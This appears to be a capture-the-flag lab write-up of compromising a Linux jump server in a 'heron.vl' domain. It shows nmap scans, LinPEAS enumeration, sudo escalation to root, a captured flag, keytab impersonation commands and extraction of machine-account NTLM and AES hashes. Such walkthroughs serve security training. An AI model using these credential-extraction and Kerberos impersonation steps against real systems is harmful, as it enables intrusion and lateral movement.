



As usual I will start by checking all the common UDP services open on this machine:

```bash
└─$ nmap -sU -F 10.13.38.34    
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-15 18:26 +0100
Stats: 0:00:45 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 51.44% done; ETC: 18:27 (0:00:42 remaining)
Nmap scan report for 10.13.38.34
Host is up (0.050s latency).
All 100 scanned ports on 10.13.38.34 are in ignored states.
Not shown: 100 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 100.87 seconds

```

And same for the TCP counterpart, showing traces of that this is indeed the Linux jump server:

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 10:a0:bd:2a:81:3d:37:5d:23:75:c8:d2:83:bf:2a:23 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIVPUPzGA2ERjiZJk6cW/S1+nDZvJbjSLwjGgTU8RETSfBV9pgYbUDrmu28cmDSCKQ0cirkaf3dggjVtJO/EvYM=
|   256 bd:32:29:26:4d:41:d7:56:01:37:bc:10:0c:de:45:24 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFkNc5lDxvCLp4GsbGLiAmmFudhK+TXxP978Cp6Y+z4b
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=3/15%OT=22%CT=%CU=31203%PV=Y%DS=2%DC=T%G=N%TM=69B6EBDD
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=F9%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SEQ(S
OS:P=F9%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M552ST11NW7%O2=M552ST11NW7
OS:%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11NW7%O6=M552ST11)WIN(W1=FE88%W
OS:2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M552N
OS:NSNW7%CC=Y%Q=)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%
OS:TG=40%S=O%A=S+%F=AS%RD=0%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=
OS:N)T3(R=N)T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T4(R=Y%DF=Y%T=40%W
OS:=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%TG=40%W=0%S=A
OS:%A=Z%F=R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)U1(R=N)U
OS:1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DF
OS:I=N%TG=40%CD=S)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 13.000 days (since Mon Mar  2 18:27:02 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=249 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.21 ms 10.10.14.1
2   34.29 ms 10.13.38.34

```

# SSH

Now since the results are very thin, I will use my creds to login via SSH on the jump server and check what exactly can I see? I am not sudoer but I can see where I will need to pivot later on?

```bash
pentest@frajmp:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:73:b4 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.13.38.34/24 brd 10.13.38.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:fe94:73b4/64 scope global dynamic mngtmpaddr 
       valid_lft 86392sec preferred_lft 14392sec
    inet6 fe80::250:56ff:fe94:73b4/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:b5:5b brd ff:ff:ff:ff:ff:ff
    altname enp11s0
    altname ens192
    inet 172.16.10.5/24 brd 172.16.10.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe94:b55b/64 scope link 
       valid_lft forever preferred_lft forever
pentest@frajmp:~$ 

```

I see some other users here, these might be vulnerable to Kerberoast?

```bash
pentest@frajmp:/home$ ls -al
total 24
drwxr-xr-x  6 root                          root                  4096 Jun  6  2024 .
drwxr-xr-x 19 root                          root                  4096 Jun 20  2025 ..
drwxr-x---  4 _local                        _local                4096 May 26  2024 _local
drwxr-x---  4 pentest                       pentest               4096 Mar 15 16:24 pentest
drwx------  4 svc-web-accounting-d@heron.vl domain users@heron.vl 4096 Jun  6  2024 svc-web-accounting-d@heron.vl
drwx------  3 svc-web-accounting@heron.vl   domain users@heron.vl 4096 Jun  6  2024 svc-web-accounting@heron.vl

```

Anyway I willl upload Linpeas and check what other interesting stuff can I see here... I see and old ass ssh(https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc)



It might have a kernel CVE as well?  


In the meantime I will setup a Ligolo network as I don't think I can do much on this linux here so far:  


&nbsp;

Now digging thru all the logs I see something similar?

```bash
╔══════════╣ Searching kerberos conf files and tickets (T1558.003)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-active-directory.html#linux-active-directory
kadmin was found on /usr/bin/kadmin
kadmin was found on /usr/bin/kinit
klist execution
klist: No credentials cache found (filename: /tmp/krb5cc_1001)
ptrace protection is enabled (1), you need to disable it to search for tickets inside processes memory
-rw-r--r-- 1 root root 429 Mar 15 03:13 /etc/krb5.conf
[libdefaults]
udp_preference_limit = 0
default_realm = HERON.VL
dns_lookup_realm = false
dns_lookup_kdc = true
ticket_lifetime = 72h
kdc_timesync = 1
ccache_type = 4
forwardable = true
proxiable = true
fcc-mit-ticketflags = true
dns_canonicalize_hostname = false


[realms]
    HERON.VL = {
        kdc = mucdc.heron.vl
        admin_server = mucdc.heron.vl
    }

[domain_realm]
    .heron.vl = HERON.VL
    heron.vl = HERON.VL
-rw-r--r-- 1 root root 169 Mar 20  2025 /usr/lib/x86_64-linux-gnu/sssd/conf/sssd.conf
[sssd]
domains = shadowutils

[nss]

[pam]

[domain/shadowutils]
id_provider = files

auth_provider = proxy
proxy_pam_target = sssd-shadowutils

proxy_fast_alias = True
tickets kerberos Not Found
klist Not Found

```

I think I need to move on for now.

# Back on track

With those credentials saved in the DC I can login and I am indeed sudo on the machine!

```bash
_local@frajmp:~$ sudo -l
[sudo] password for _local: 
Matching Defaults entries for _local on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User _local may run the following commands on localhost:
    (ALL : ALL) ALL
_local@frajmp:~$ sudo su
root@frajmp:/home/_local# 

```

Other users had no juicy informations in their home folders but I am able to obtain another flag, this time for the root home folder:

```bash
root@frajmp:/# cd /root/
root@frajmp:~# ls
flag.txt  snap
root@frajmp:~# ls -al
total 52
drwx------  7 root root 4096 Jun 20  2025 .
drwxr-xr-x 19 root root 4096 Jun 20  2025 ..
lrwxrwxrwx  1 root root    9 Jun  6  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Jun 20  2025 .cache
drwx------  3 root root 4096 Jun 20  2025 .config
-rw-r-----  1 root root   40 May 13  2025 flag.txt
-rw-r--r--  1 root root   46 Jun  6  2024 .k5login
-rw-------  1 root root   20 Jun 20  2025 .lesshst
drwxr-xr-x  3 root root 4096 Jun 20  2025 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   32 Mar 15 09:25 .run
drwx------  3 root root 4096 Jun 20  2025 snap
drwx------  2 root root 4096 Jun 20  2025 .ssh
-rw-r--r--  1 root root    0 May 26  2024 .sudo_as_admin_successful
root@frajmp:~# cat flag.txt 
HERON{d02a6a7405889c2485048efd05eea3c8}
root@frajmp:~# 


```

Now here i can see that I should be able to obtain the creds for the JUMPSERVER host?

```bash
keytab file found, you may be able to impersonate some kerberos principals and add users or modify passwords
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 FRAJMP$@HERON.VL
   2 FRAJMP$@HERON.VL
   2 FRAJMP$@HERON.VL
   2 host/FRAJMP@HERON.VL
   2 host/FRAJMP@HERON.VL
   2 host/FRAJMP@HERON.VL
   2 host/frajmp.heron.vl@HERON.VL
   2 host/frajmp.heron.vl@HERON.VL
   2 host/frajmp.heron.vl@HERON.VL
   2 RestrictedKrbHost/FRAJMP@HERON.VL
   2 RestrictedKrbHost/FRAJMP@HERON.VL
   2 RestrictedKrbHost/FRAJMP@HERON.VL
   2 RestrictedKrbHost/frajmp.heron.vl@HERON.VL
   2 RestrictedKrbHost/frajmp.heron.vl@HERON.VL
   2 RestrictedKrbHost/frajmp.heron.vl@HERON.VL
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "FRAJMP$@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "FRAJMP$@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "FRAJMP$@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/FRAJMP@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/FRAJMP@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/FRAJMP@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/frajmp.heron.vl@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/frajmp.heron.vl@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/frajmp.heron.vl@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "RestrictedKrbHost/FRAJMP@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "RestrictedKrbHost/FRAJMP@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "RestrictedKrbHost/FRAJMP@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "RestrictedKrbHost/frajmp.heron.vl@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "RestrictedKrbHost/frajmp.heron.vl@HERON.VL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "RestrictedKrbHost/frajmp.heron.vl@HERON.VL"
-rw------- 1 root root 490 Jun  6  2024 /etc/sssd/sssd.conf


```

And I have some more creds?

```bash
└─# python3 keytabextract.py /home/millycash/Downloads/Heron/krb5.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
    REALM : HERON.VL
    SERVICE PRINCIPAL : FRAJMP$/
    NTLM HASH : 6f55b3b443ef192c804b2ae98e8254f7
    AES-256 HASH : 7be44e62e24ba5f4a5024c185ade0cd3056b600bb9c69f11da3050dd586130e7
    AES-128 HASH : dcaaea0cdc4475eee9bf78e6a6cbd0cd

```

I feel I can move on!